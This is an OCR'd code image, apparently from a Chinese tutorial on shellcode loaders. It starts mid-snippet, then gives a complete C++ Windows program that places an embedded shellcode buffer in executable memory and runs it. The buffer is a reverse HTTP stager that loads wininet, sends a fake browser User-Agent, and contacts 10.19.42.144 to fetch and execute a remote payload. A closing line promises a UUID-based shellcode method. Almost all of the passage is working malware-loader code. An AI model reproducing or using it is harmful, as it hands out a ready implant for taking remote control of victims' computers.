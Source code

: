 ```
  ((void(*)())a)();
  return 0;
}

#include<Windows.h>
#include<iostream>
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x31\x6b\x6a\x56\x00\xfe\xdc\x7a\x2d\x31\xc9\xe7\x28\x1e\xb5\x42\x5f\x62\xa3\xf5\x64\x42\x79\x2d\xa2\xd8\xf7\x74\xca\xc1\x64\xc7\xc2\xfe\x32\xb2\x36\x0a\xa0\x90\x4e\xfa\xd4\x47\x04\xa4\x8b\xd9\xe6\x65\xa1\x8f\xbe\xe4\xb6\x95\x63\xf0\xb4\x46\x20\x85\xf8\x60\x5e\xb1\xf8\xa0\x59\xef\x9e\xb2\xc6\xe6\xf9\x5d\x8e\x07\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x54\x6f\x75\x63\x68\x3b\x20\x4d\x41\x53\x50\x4a\x53\x29\x0d\x0a\x00\x91\xa8\x10\xb7\xda\x80\x7f\xab\xc7\x23\x16\x2f\x4b\x61\xbd\xeb\xa5\x14\x6f\x90\x4b\xdf\x5a\x58\xe0\x57\x55\x1f\xdb\x6a\x56\x74\xc2\xa1\x9c\x9f\x32\xda\x91\x0d\x01\x10\x2d\x95\xef\x8e\x49\x72\x3a\x2b\x9e\x59\x8e\x85\xa6\xad\xb6\x9c\xc6\x98\x10\x7d\x09\x1f\x60\xa3\x4a\xea\xbe\x4a\xf5\x49\x8a\xc7\x18\xd6\x60\x22\x51\x17\xb8\xd6\x61\xd3\x8a\x81\x37\x3e\x6a\x3d\x1c\x3d\xc5\xf3\xa0\x57\x02\x04\x44\x57\xc1\x14\x23\x71\xc2\x08\x87\x6c\x94\x6b\x89\xc1\xd9\x2b\xcc\x6b\x62\x25\x3f\xbb\x9f\x56\x02\xf1\x54\x4d\x4d\x91\x4e\x89\x5b\xda\x5f\xf0\x92\xa5\xac\xb2\xaf\xcf\xbb\xe2\xaf\xb0\xca\x5b\x08\x83\x4c\x92\x7a\xb5\x97\xb9\xd2\x07\xc9\x8f\xb7\x80\xfc\x26\x3d\xa3\xd1\x9e\x29\x42\x05\xcd\x0b\x78\xc2\x11\x86\x4f\x66\x57\xda\xe2\x4b\x98\xcc\x46\x4d\xe5\xbd\xfe\xc7\x2c\xc4\xd3\xe5\xc0\xf9\x43\xca\xd4\x1d\x5a\x73\xda\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x30\x2e\x31\x39\x2e\x34\x32\x2e\x31\x34\x34\x00\x12\x34\x56\x78";
int main()
{
  void* shellcode = (void*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(shellcode, buf, sizeof(buf));
  ((void(*)())shellcode)();
  return 0;
}
```

然后我们来利用 uuid 写 shellcode
